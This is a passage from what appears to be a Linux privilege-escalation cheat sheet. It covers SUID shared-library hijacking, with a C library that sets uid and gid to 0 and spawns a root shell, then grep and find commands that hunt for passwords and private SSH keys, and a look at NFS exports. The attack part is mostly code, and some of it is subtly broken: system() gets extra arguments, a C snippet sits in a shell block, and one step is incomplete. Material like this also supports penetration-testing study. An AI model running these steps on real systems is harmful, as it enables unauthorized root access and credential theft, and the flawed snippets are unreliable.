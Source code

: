 ```sh
ldd /usr/bin/suidprogram
```

Determine which share library configuration files available

```sh
ls -l /etc/ld.so.conf.d/
```

Build C++ privilege escalation code

```sh
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void say_hi(){
    setuid(0); setgid(0); system("/bin/sh",NULL,NULL);
}
```

```sh
export PATH
```

Recheck the the SUID

```sh
ldd /usr/bin/suidprogram
```

Finally, run the SUID.

### Password & SSH keys

#### Passwords

```sh
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```

> _**NOTE:**_ Use "PASS" instead of "PASSWORD" for more result

#### SSH keys

```sh
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```

### NFS

Read the /etc/exports file

```sh
cat /etc/exports
```
